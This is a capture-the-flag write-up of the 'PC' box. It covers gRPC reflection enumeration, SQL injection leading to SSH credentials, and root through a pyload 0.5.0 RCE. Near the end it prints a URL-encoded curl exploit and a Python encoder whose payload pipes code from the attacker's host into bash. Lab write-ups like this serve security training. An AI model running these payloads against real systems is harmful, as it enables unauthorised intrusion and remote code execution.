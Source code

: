 # PC

![PC.png](PC%20b77e5f5a5e384632a7a29239d21da8e6/PC.png)

It was an easy-rated box that introduced me to a new framework called “grpc”. The interesting part was here to understand what the port was running and how to interact with it. Since I did much of the reading before doing the box. The initial commands might not be documented well. But once we get to grpcui we can interact with the API. Got credentials with sqli for ssh access and then found a vulnerable pyload running internally as root for privesc.

## Recon

### Nmap

```jsx
PORT      STATE SERVICE
22/tcp    open  ssh
50051/tcp open  unknown
```

It was a very peculiar box with no web application running. So I had to run an all-port Nmap scan which gave 50051 port as open. With a few Google searches, we can come to the conclusion that the service could be gRPC (Google remote procedure call). Also connecting with Netcat didn't give much information.

### gRPC

gRPC, which stands for "Google Remote Procedure Call," is an open-source framework developed by Google to enable efficient and secure communication between distributed systems and services. It is designed to simplify the process of building efficient, high-performance, and language-agnostic remote procedure call (RPC) systems.

I had to read about it from multiple sources and finally decided to go for an automated tool to interact with it since I didn't have the `.proto` file which was needed to manually script with Python and make requests.

Here are some features of gRPC from chatGPT:

- Protocol Buffers (Protobuf): gRPC uses Protocol Buffers as its interface definition language (IDL). Protocol Buffers is a language-agnostic, efficient, and extensible mechanism for serializing structured data. They define the structure of the data that will be exchanged between the client and the server, including the method calls, parameters, and responses.
- Service Definition: Developers define the services and their methods in a .proto file using Protocol Buffer's syntax. This service definition file serves as the contract between the client and the server, specifying the operations that can be performed and the data that should be exchanged.
- Strongly Typed: gRPC generates code in various programming languages (such as Python, Java, C++, etc.) from the .proto service definition file. This generated code provides strongly typed interfaces for clients and servers to interact with each other.
- Bidirectional Streaming: gRPC supports both unary RPC (single request and single response) and streaming RPC. Bidirectional streaming allows clients and servers to send a stream of messages in both directions, enabling scenarios like real-time updates and chat applications.
- HTTP/2: gRPC is built on top of the HTTP/2 protocol, which provides features like multiplexing, header compression, and flow control. This makes gRPC more efficient compared to traditional REST APIs, as it can send multiple requests and responses concurrently over a single connection.
- Interceptors: gRPC supports interceptors, which are middleware components that allow you to add cross-cutting concerns like authentication, logging, and monitoring to the communication between clients and servers.
- Language Support: gRPC provides support for multiple programming languages, including but not limited to C++, Java, Python, Go, JavaScript, Ruby, and more.

## gRPC UI tool

I came across an article that had not only explained what gRPC was but also all the different ways to interact with such a service. From the blogs below we can clearly see possible vulnerabilities in gRPC which could be unwanted service exposure via server reflection. It was present in the box which led us to enumerate the services in the grpc server. It is useful for development or testing.

I tried using tools like grpcurl and was able to verify the server reflection existing there and also the services offered.

But I moved to the grpc UI tool which gave a browser UI for easy interaction with the service.

### Testing For SQLi

There were three different methods for creating users. Getting the user token and the third was for getting info. The app's name was SimpleApp. I created a sample user and logged into the authenticated endpoint “getInfoRequest”. The second endpoint for logging in gave us two values. The user id and the user token for logging in. It had a fairly simple UI with one value being sent and we were getting responses accordingly.

For 657 which was not the id of the current user

![Untitled](PC%20b77e5f5a5e384632a7a29239d21da8e6/Untitled.png)

For value 658 which was a valid user we created and logged in as we got

```jsx
{
  "message": "Will update soon."
}
```

Coming to the payload, since the value is an integer we can get SQLi with payloads without the `‘` or `“`. This was also the case in earlier box soccer which had blind boolean SQLi injection. 

![Untitled](PC%20b77e5f5a5e384632a7a29239d21da8e6/Untitled%201.png)

We got confirmation for SQLi as we got a response different from an existing user value, so it can be deduced that the form was vulnerable to SQLi. The output we got was similar for the value 1. Thus we got confirmation for the vulnerability being present and can move on to exploitation.

```jsx
{
  "message": "The admin is working hard to fix the issues."
}
```

![Untitled](PC%20b77e5f5a5e384632a7a29239d21da8e6/Untitled%202.png)

I intercepted the request with Burpsuite and saved the request in a file. From then the exploitation is trivial and SQLmap gave us the dump of the backend databases. One of them had the username and password which gave us the user access via ssh.

![Untitled](PC%20b77e5f5a5e384632a7a29239d21da8e6/Untitled%203.png)

## Privilege Escalation

When we have the credentials for any user we normally check what we can run with sudo privileges. But we are not authorized to run anything as sudo on the box. I checked if there are any interesting services running internally. Voila…there seem to be two services on port 9666 and 8000. These were Jinja and Flask-based web apps and were running “pyload”.

![Untitled](PC%20b77e5f5a5e384632a7a29239d21da8e6/Untitled%204.png)

I checked the version of pyload running on the machine and with a few Google searches ended up on an article showing a recent RCE vulnerability on the dev version of pyload.

Here, “pyload” was running on version 0.5.0, vulnerable to unauthenticated remote code execution.

![Untitled](PC%20b77e5f5a5e384632a7a29239d21da8e6/Untitled%205.png)

The payload I used was 

```jsx
curl -i -s -k -X 'POST' -H 'Host: 127.0.0.1:8000'  --data-binary 'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%63%75%72%6c%20%31%30%2e%31%30%2e%31%34%2e%35%3a%38%30%30%31%7c%62%61%73%68%22%29;f=function%20f2(){};&passwords=aaaa'     'http://127.0.0.1:8000/flash/addcrypted2'
```

Also, the jk parameter in the article was URL-encoded so I created a simple Python script to do so.

```jsx
import urllib.parse

character = 'pyimport os;os.system("curl 10.10.14.5:8001|bash")'
encoded_character = urllib.parse.quote(character, safe='')

print(encoded_character)
res=''
for i in character:
    tmp=ord(i)
    res+='%'+str(hex(tmp)[2:])
print(res)
```

### References

[https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/](https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/) 

[https://medium.com/@ibm_ptc_security/grpc-security-series-part-1-c0059362c4b5](https://medium.com/@ibm_ptc_security/grpc-security-series-part-1-c0059362c4b5) 

[https://medium.com/@ibm_ptc_security/grpc-security-series-part-2-b1fd38f8cd88](https://medium.com/@ibm_ptc_security/grpc-security-series-part-2-b1fd38f8cd88) 

[https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9](https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9)